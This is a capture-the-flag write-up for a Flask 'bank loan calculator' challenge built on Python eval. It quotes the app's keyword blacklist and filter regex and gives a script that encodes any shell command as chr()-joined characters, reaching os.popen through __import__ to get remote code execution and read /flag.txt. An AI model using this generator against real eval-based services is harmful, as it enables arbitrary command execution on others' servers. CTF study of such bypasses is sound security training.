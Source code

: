 Description:  
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?  
Hints:  
Bypass regex  
The flag file is /flag.txt  
You might need encoding or dynamic construction to bypass restrictions.  

Easy to see the app can execute any Python code using Flask. `Ctrl + U` to view source code, i saw they using blacklist to void dangerous command:  
```python
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```
Our job is writing a payload which does not matching that "keyword" and "regex"  
We will using `__import__('builtins').__import__( <payload> )` to run the command. My idea is using `join` to merge the ASCII number of a char i want to complete payload.  
Our OS command will be `cat /flag.txt` according to hint number 2.  
Here my code to encoding a payload:  
```python
# This script encodes a shell command into a Python expression that can be executed using `os.popen` or `os.system`.
# Using it to bypass restrictions on direct command execution.
    
    # ------------
    # Secure python_flask eval execution by 
    #     1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
    #     2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'


def encode_command(cmd, method='popen'):
    ascii_list = [ord(c) for c in cmd]
    chr_expr = ','.join([f'chr({c})' for c in ascii_list])
    cmd_expr = f"''.join([{chr_expr}])"
    
    os_expr = "''.join([chr(111),chr(115)])"
    import_expr = "__import__('builtins').__import__"

    if method == 'popen': # Using popen to execute the command and read output
        final = f"{import_expr}({os_expr}).popen({cmd_expr}).read()"
    elif method == 'system': # Using system to execute the command without capturing output
        final = f"{import_expr}({os_expr}).system({cmd_expr})"
    else:
        raise ValueError("method must be 'popen' or 'system'")

    return final


if __name__ == "__main__":
    user_cmd = input("Enter shell command: ")  # e.g. cat /flag.txt, ls -la, etc.
    payload = encode_command(user_cmd, method='popen')
    print("\nPayload:\n")
    print(payload)

```
Input your payload then put in into the "Bank" and you will get the flag.  
Peace! 


